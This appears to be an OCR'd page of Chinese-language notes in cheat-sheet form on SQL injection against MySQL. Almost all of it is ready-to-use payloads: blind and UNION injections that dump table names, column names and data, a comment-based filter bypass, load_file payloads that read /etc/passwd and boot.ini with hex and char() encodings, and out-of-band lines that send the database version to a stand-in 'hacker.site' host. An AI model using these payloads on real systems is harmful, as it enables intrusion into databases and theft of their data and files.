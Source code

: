 盲注表名

`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #`

#### 字段名

`union select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_name='[表名]'#`

#### GET数据

`union select 1,2,3,group_concat([字段名1],[字段名2],[字段名3]...),group_concat([字段名4]...) from [表名]#`

#### 绕过

`/*!50000select*/`

#### 带外通道

SQL注入读写文件的根本条件：

* 数据库允许导入导出（secure\_file\_priv）

`show variables like "secure_file_priv";`

* 当前用户用户是否有文件读写权限（File\_priv）

`select File_priv from mysql.user where user='root' and host='localhost';`

查看当前用户

`select current_user();`

|    secure\_file\_priv    |                含义               |
|:------------------------:|:---------------------------------:|
|`secure_file_priv=null`   |限制mysql不允许导入导出               |
|`secure_file_priv=/tmp/`  |限制mysql的导入导出只能发生在`/tmp/`目录|
|`secure_file_priv=''`     |不对mysql的导入导出做限制             |

读写条件

1. 对web目录具有读写权限

2. 知道文件绝对路径

3. 能够使用联合查询（sql注入时）

##### 读文件 

`load_file()`

> `load_file('/etc/passwd')`  
> `concat()`函数用于将多个字符串连接成一个字符串

```
select load_file(concat('\\',version(),'.hacker.site\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874));
?id=-1' UNION SELECT 1,2,load_file('c:\\boot.ini')--+
?id=-1' UNION SELECT 1,2,load_file(char(99,58,47,98,111,111,116,46,105,110,105))--+ //通过char()函数将ascii十进制形式转为字符形式，可绕过引号过滤
?id=-1' UNION SELECT 1,2,load_file(0x633a2f626f6f742e696e69)                //十六进制形式
```
